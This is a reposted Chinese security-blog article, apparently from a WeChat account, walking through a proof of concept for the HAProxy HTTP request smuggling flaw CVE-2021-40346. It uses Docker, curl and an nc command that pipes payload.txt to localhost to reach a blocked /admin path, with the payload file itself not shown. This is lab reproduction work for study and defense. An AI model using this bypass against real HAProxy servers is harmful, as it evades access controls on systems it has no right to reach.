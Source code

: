 #  CVE-2021-40346（HAProxy HTTP 走私）屁噢C

knqyf263  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210911114224.png)

  

docker启动

  

  *   *   * 

    
    
    $ docker build -t cve-2021-40346 .$ docker run --name poc -p 8000:80 -d --rm -it cve-2021-403464941e9f23508b497e4cbe334a75e7cdb84c83478522ed85f48db3477f97a6fb4

  

  

测试：  

        确认`/admin`被拒绝。  
  

  *   *   *   *   *   * 

    
    
    $ curl http://localhost:8000hello$ curl http://localhost:8000/admin<html><body><h1>403 Forbidden</h1>Request forbidden by administrative rules.</body></html>

  

        你不会`/admin`在日志中看到。这意味着请求没有到达后端服务器，因为 HAProxy 拒绝了它。

  

  *   *   * 

    
    
    $ docker logs pocserver start at port 8000/

  

  

然后，您可以确保它可以被 payload.txt 绕过。

  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ cat payload.txt | nc localhost 8000HTTP/1.1 200 OKcontent-type: text/plaindate: Wed, 08 Sep 2021 22:31:10 GMTkeep-alive: timeout=5transfer-encoding: chunked  
    6hello  
    0

  

  

你会`/admin`在日志中找到。

  

  *   *   *   *   * 

    
    
    $ docker logs pocserver start at port 8000///admin

  

项目地址：  

  

aHR0cHM6Ly9naXRodWIuY29tL2tucXlmMjYzL0NWRS0yMDIxLTQwMzQ2

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40346（HAProxy HTTP 走私）屁噢C

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

